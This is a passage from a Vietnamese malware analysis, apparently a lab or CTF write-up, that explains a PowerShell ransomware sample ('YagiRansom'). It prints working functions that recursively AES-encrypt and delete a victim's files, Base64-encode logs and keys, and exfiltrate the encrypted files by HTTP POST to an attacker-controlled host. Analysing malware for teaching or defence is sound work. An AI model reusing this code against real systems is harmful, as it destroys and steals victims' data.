 * Tiếp theo hàm sẽ hoạt động lọc các nội dung của tệp thuộc đường dẫn `$Directory$slash$I26` và chọn lọc ra các dòng, chuỗi mà chứa `[!]` và bỏ đi những dòng chứa chuỗi `YagiRansom!` bằng `option`là `-NotMatch` sau đó  tất cả sẽ được lưu vào biến `$RansomLogs`
* Công việc tiếp theo là gọi hàm `function R64Encoder` để mã hóa biến `$2YngY` và lưu vào `$XoX` . Song song đó cũng gọi hàm `function R64Encoder` để mã hóa biến `$RansomLogs` và lưu vào biến `$B64Logs`
* Sau đó hàm sẽ gọi `Invoke-WebRequest` để đồng thời gửi `$XoX` tới `endpoint` là `$UFX/data` và `$B64Logs` tới `endpoint` là `$UFX/logs` , tất cả k được hiển thị lên kết quả bằng `2>&1> $null`

Mô tả chung 
```
Hàm sẽ mã hóa các chuỗi là giá trị của biến $cvf, $cVl, $2YngY, $RansomLogs thành $XoX gửi tới /data và $B64Logs gửi tới /logs qua HTTP POST
```

4. `function EncryptFiles` mã hóa các file mục tiêu.
```python=
function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}
```
* Đầu tiên hàm tạo 1 danh sách `$ExcludedFiles` để chứa các `extention` và 1 file `yaginote.txt` 
* Tiếp đó duyệt qua các thư mục để lấy tệp và loại trừ những file chứa `extention` trong `$ExcludedFiles` , lấy đầy đủ đường dẫn từ tệp và đưa vào biến `$i`
* Sau đó gọi hàm `function Invoke-AESEncryption` để mã hóa biến `$i` là `path` vừa rồi theo `key` là biến `$WiETm` . Sau đó ghi lại đoạn mã hóa theo `format` `"$Directory$slash$I26" -Value "[!] $i is now encrypted" ` và xóa đi tệp đó.
* Tương tự code trước thì dòng tiếp theo để lọc ra dòng, chuỗi chứa `[!]` và loại những dòng, chuỗi chứa `YagiRansom!` . Nếu k có `logs` thì in ra `logs` là `"$Directory$slash$I26" -Value "[!] No files have been encrypted!"` 
 
 Mô tả chung 
 ```
 Hàm có tác dụng lọc ra các tệp theo điều kiện và mã hóa "path" theo thuật toán AES => ghi lại vào logs và xóa file hiện tại đó.
 ```
 
 5. `function ExfiltrateFiles` mã hóa và gửi dữ liệu đi.
```python=
function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
```
